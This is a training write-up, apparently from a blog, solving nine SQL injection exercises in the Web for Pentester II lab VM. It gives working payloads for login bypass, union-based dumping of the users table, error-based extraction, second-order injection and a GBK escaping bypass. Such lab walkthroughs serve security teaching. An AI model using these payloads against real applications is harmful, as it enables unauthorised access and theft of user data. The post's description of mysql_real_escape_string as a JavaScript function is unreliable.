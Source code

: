 ```yaml
---
layout: post
title: SQL injection Examples - Web for Pentester II
date: 2015-08-20 
author: yzh503
summary: All the solutions of SQL injection part of Web for Pentester II
categories: Web_Penetration
tags: 
 - Web penetration
 - SQL injection
---
```


##Background 
SQL injection is a type of vulnerabilities of SQL syntax. Based on SQL commands knowledgement, you can insert your own query into the origin code to bypass the authentication page or to get sensitive information. There are a bunch of good free examples for web penetration testing in [Pentester Lab](http://pentesterlab.com). In this article, we will go through each example of SQL injection in [Web for Pentester II](https://pentesterlab.com/exercises/web_for_pentester_II). Make sure you give the VM at least 1 GB of RAM, and host-only network. OK, now open the page and get started, Using nmap or typing ifconfig in the VM to get the IP. 

##Solutions 
###Example 1
It's pretty straightforward. Use the very basic injection technique. Type the following in the username. As the course of pentester lab stated, password is usually hashed or encrypted, so it's better to perform this in username.
{% highlight mySQL %}
' or 1=1 #
{% endhighlight %}
Note that assume the original query is like
{% highlight mySQL%}
SELECT * FROM users WHERE username='******' AND password='******'
{% endhighlight %}
single quote ' can be used to escape from string, and insert query. After we send the request, the query would be like 
{% highlight mySQL%}
SELECT * FROM users WHERE username='' or 1=1 # ' AND password=''
{% endhighlight %}
The WHERE clause became always true, and things after # was commented out, so then the server got a result, and we are done.


###Example 2
In this example, the number of users returned is restricted.
{% highlight mySQL %}
' or 1=1 LIMIT 1 #
{%endhighlight%}


###Example 3
In this example, single quotes are removed in the query, but it's still breakable by using '\'. The query will become like
{% highlight mySQL %}
SELECT * FROM users WHERE username='\' AND password=' or 1=1 #'
{%endhighlight%}
The second single quote is turned to a character by backslash. The actual username in the query is "\' AND password=". The string is closed by the first quote of password.

###Example 4
There is no text box, so look at the address bar. 
{% highlight mysql %}
.../example4/?req=username%3d%27hacker%27
{% endhighlight  %}
Decode the url, 
{% highlight mysql %}
username='hacker'
{% endhighlight %}
This gives the server a username, and this string is likely to be in WHERE clause. To confirm this, change the url to
{% highlight mysql %}
.../example4/?req=username='
{% endhighlight %}
This gives you an sql query error, which shows the actual query. The entire string after "req=" is in WHERE clause. Chagne the url to this.
{% highlight mysql %}
.../example4/?req=' or 1=1 #
{% endhighlight %}


###Example 5
This is a union-based SQL injection.
{%highlight mysql%}
.../example5/?limit=3 union all select * from users
{%endhighlight%}


###Example 6 
Change the url to
{%highlight mysql%}
.../example5/?group=username union all select * from users
{%endhighlight%}
or simple delete group
{%highlight mysql%}
.../example5/?
{%endhighlight%}
This is a dump example using group by.


###Example 7
Pentester lab provides an error-pone statement, 
{%highlight mysql%}
extractvalue('%3Cxml%3E',concat(%22/%22,(select%20version())))
{%endhighlight%}
but I prefer to just use a single quote here, which has the same result on web for pentester II pages.
With an error message displayed, you can easily see the structure of the query.
![msg](http://i.imgur.com/1iWLWTB.png) 
Same as example 6, delete suffix or use union-based injection to display all users.


###Example 8
Create a few users randomly first. Create a new user named the following:
{%highlight mysql%}
' union all select * from users where username='whatever_you_want_to_check' #
or 
' union all select * from users where id='whichever_you_want_to_check' #
{%endhighlight%}
With this user, you may check any user you want. The vulnerability of this one is that the value coming crom database is usually seen as trustable.


###Example 9
This page uses a Javascript function  mysql_real_escape_string(), which removes any escape that you enter in. However, this function does not work properly with GBK character. with a GBK character, followed by a single quote, this quote will not be removed. Enter the following to bypass the authentication.
{%highlight mysql%}
呵' or 1=1 #
{%endhighlight%}



